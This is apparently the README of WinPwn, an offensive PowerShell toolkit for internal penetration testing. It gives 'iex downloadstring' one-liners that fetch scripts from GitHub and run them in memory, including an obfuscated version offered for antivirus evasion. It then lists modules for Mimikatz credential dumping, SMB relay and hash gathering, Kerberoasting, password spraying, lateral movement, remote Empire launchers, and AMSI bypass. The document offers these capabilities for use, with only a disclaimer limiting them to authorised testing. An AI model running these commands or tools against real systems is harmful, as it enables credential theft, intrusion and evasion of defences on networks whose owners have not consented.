 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

For AV-Evasion use:
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/ObfusWinPwn.ps1')`

Functions available after Import:
* #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
* #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
* #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
* #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
* #### `localreconmodules` -> 
  * Checks the Powershell event logs for credentials or other sensitive informations
  * Checks for WSUS Server over HTTP (Fake Update vulnerability)
  * Checks the local SMB-Signing state
  * Collects various local system informations (Installed Software + vulnerable software, Shares, privileges, local groups, network information
  * Searches for passwords in the registry as well as in files on the hard disk + Browser Credentials
  * Search for .NET Binaries on the local system (which can be reverse engineered for vulnerability analysis) 
  * Optional: Get-Computerdetails (Powersploit) , Just another Windows Privilege escalation script, Winspect
* #### `JAWS` -> Just another Windows Privilege Escalation script
* #### `domainreconmodules` -> 
  * Powerview function output gets stored on disk for review. 
  * A search for AD-Passwords in description fields is done. 
  * Unconstrained delegation systems/users are enumerated. 
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  * MS-RPRN Check for Domaincontrollers
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
* #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
* #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
* #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
* #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
* #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
* #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
* #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
* #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
* #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
* #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.
* #### `MS17-10` -> Scan active windows Servers in the domain or all systems for MS17-10 (Eternalblue) vulnerability

The submodule is a forked and edited version of https://github.com/Cn33liz/p0wnedShell. You can compile it yourself and use it for powershell restriction bypass and AMSI-Bypass. Most AV-Solutions can be evaded this way. Just run the executable File, choose 17. and execute WinPwn.

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wnedmenu.PNG)

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wned.png)

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation
- [ ] Add MS17-10 Scanner

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL
- [X] [Cn33liz](https://github.com/Cn33liz/) - p0wnedShell

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
